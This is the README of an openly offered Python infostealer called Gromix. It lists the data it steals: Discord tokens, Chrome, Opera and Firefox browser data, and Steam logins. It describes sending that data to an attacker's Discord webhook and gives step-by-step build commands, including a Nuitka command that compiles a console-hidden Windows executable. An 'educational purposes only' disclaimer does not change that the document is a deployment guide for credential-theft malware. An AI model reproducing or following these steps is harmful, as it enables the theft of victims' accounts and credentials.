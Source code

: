 # :heartpulse: _**Gromix Python Stealer**_ :heartpulse:
[![Build Gromix](https://github.com/alexgar0/gromix_python_stealer/actions/workflows/build_stealer.yml/badge.svg)](https://github.com/alexgar0/gromix_python_stealer/actions/workflows/build_stealer.yml)
### :police_car: _DISCLAIMER: This program is for educational purposes only._ :police_car:

<details>
  <summary>Important info</summary>
  <i>This stealer is very, VERY new and needs a lot of work</i>
</details>

## What data can it steal ?
- :closed_book: Discord tokens
- :closed_book: Google Chrome
- :closed_book: Opera
- :closed_book: Firefox
- :closed_book: Steam login / installed apps

## Features
- [x] Build using Nuitka
- [x] Send all data by Discord webhooks.
- [x] Custom ico

## How to build

:bangbang: *INSTALL ALL REQUIREMENTS BEFORE BUILDING*

```console
pip install -r requirements.txt
```

Just put your Discord webhook inside _webhook.txt_ file. Then:
```console
python build.py
```

Or you can do it like this:
```console
python build.py --webhook=https://discord.com/api/webhooks/2281488/something
```

After that our exe file will start to generate.
I build this on Python 3.10, final .exe file size is **28717 KB** :floppy_disk:

If you're having troubles with _build.py_ script, just edit constant inside _webhook.py_:
```python
WEBHOOK = "https://discord.com/api/webhooks/2281488/something"
```
Then, execute this command:
```console
python -m nuitka --standalone --onefile --disable-console --windows-icon-from-ico=icon.ico stealer.py
```
